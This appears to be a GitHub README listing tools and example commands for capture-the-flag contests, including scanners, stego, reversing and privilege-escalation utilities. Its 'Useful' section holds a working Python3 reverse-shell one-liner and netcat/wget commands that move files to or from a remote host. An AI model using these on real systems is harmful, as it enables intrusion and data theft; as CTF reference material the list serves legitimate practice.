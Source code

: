 # CTF-tools
Collection of useful tools for CTFs.


## Categories
  - [Web](#web)
  - [Crypto](#crypto)
  - [Steganography](#Steganography)
  - [Binary/Reverse](#binary/reverse)
  - [Other](#other)
  - [Useful](#useful)
  - [to update]

---

## Web

* nmap
```
Example usage : sudo nmap -sS -A -T4 <ip_target> -oN <name_output> -vv
```
* gobuster
```
Example usage for directory/file enum :
                gobuster dir -u <ip_target> --wordlist <path_to_wordlist> -x <extensions>
  where:  * path_to_wordlist can be something like "/usr/share/wordlists/<wordlist>"
          * extensions like php, txt, js, cgi, sh, ...
```
* dirb
* curl
* nikto
```
Example usage: nikto -h <ip_target>
```
* wpscan
* wget 
```
Example usage: wget <url>
```
* golismero
```
Example usage:
golismero scan -i /root/port80.xml -o sub1-port80.html
```
* Burpsuite
---

## Crypto

* [CyberChef](https://gchq.github.io/CyberChef/)
* [RSACtfTool](https://github.com/Ganapati/RsaCtfTool)

---

## Steganography

* steghide
```
Example usage: steghide <command> <file>
  where command can be:   > info
                          > extract 
                          > embed 
```
* [Stegosolve](http://www.caesum.com/handbook/Stegsolve.jar)
* exif
* exiftool
* binwalk

---

## Binary/Reverse

* checksec
* strings
* ltrace
* strace
* frida
* gdb / gdb-peda
* hexdump (-C option very useful)
* objdump
* apktool
* Jadx -- Java decompiler 
* [Decompile Jar,pyc,exe,class,...](https://www.decompiler.com/)
* [Pwntools](https://github.com/Gallopsled/pwntools/)

---

## Other

* nc -- TCP/IP swiss army knife
* linpeas.sh -- for Linux Privesc
* sudo -l -- to get which files I can run with sudo
* searchsploit -- search through Exploit db archive
```
Example usage: searchsploit OpenSSH 7.2p2
               searchsploit -p 46635  -- it returns the URL of the CVE in exploit db
```
* msfconsole -- the god tool for exploitation


---



## Useful

* sending a file using nc:
```
    client side : nc -lvp <port> > <file>
    server side : nc <ip_server> <port_server> < <file>
```
* sending a file using nc + wget:
```
    client side : nc -lvp <port> < <file>
    server side : wget <ip_server>:<port_server>/<file>

!! [NOTE: protocol will continue after transmission of file (maybe because client side does not receive CRLF sequence). So after a while, just press CTRL+c et voit-là] 
```
* to convert a python script from v.2 to v.3
```
    python3 -m lib2to3 <script>.py -w
```
* connect to server pop3 (port 110) using telnet:
```
    telnet <ip> 110
```
* reverse shell with one line only, using python3:
```
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* run a simple python3 server:
```
    python -m http.server
```
* create a generic ssl/tls client which establishes a connection to a remote server speaking ssl/tls.
```
Example:    openssl s_client -connect <ip_address>:<port>
    If all it is ok, paste the password and it’s done.
```
* append data to a file: 
```
Example usage: printf "<data>" |cat - <file> > <file_out>
    where data is something like "\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\x00"
```
* [PEM Parser](https://8gwifi.org/PemParserFunctions.jsp)
* view and edit files in hexadecimal or in ASCII
```
hexedit [filename]
```


---




# Contributors

- Francesco Varotto - [@frarotto](https://github.com/francevarotz98/)
- Massimiliano Belluomini - [@massibelluomini](https://github.com/massibelluomini)
- Filippo Giambartolomei - [@filippogiamba](https://github.com/Filippo-arch)
